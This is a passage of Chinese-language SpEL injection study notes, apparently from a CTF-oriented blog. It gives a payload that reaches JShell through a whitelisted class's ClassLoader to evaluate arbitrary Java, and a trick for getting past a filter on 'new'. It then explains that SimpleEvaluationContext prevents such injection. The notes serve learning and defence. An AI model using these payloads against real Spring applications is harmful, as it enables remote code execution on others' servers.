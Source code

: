 ```
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```



### 一些技巧

#### new被过滤

可以用NEW



### 一些相关的ctf题目

#### de1ctf2020 cal





### SpEL提供的两个`EvaluationContext`的区别

SpEL提供的两个`EvaluationContext`的区别。
（EvaluationContext评估表达式以解析属性，方法或字段并帮助执行类型转换时使用该接口。有两个开箱即用的实现。）

- SimpleEvaluationContext - 针对不需要SpEL语言语法的全部范围并且应该受到有意限制的表达式类别，公开SpEL语言特性和配置选项的子集。
- StandardEvaluationContext - 公开全套SpEL语言功能和配置选项。您可以使用它来指定默认的根对象并配置每个可用的评估相关策略。

`SimpleEvaluationContext`旨在仅支持SpEL语言语法的一个子集。它不包括 Java类型引用，构造函数和bean引用。

所以说指定正确`EvaluationContext`，是防止SpEl表达式注入漏洞产生的首选，之前出现过相关的SpEL表达式注入漏洞，其修复方式就是使用`SimpleEvaluationContext`替代`StandardEvaluationContext`。





## 参考文章

 http://rui0.cn/archives/1043 

 http://ifeve.com/spring-6-spel/  文档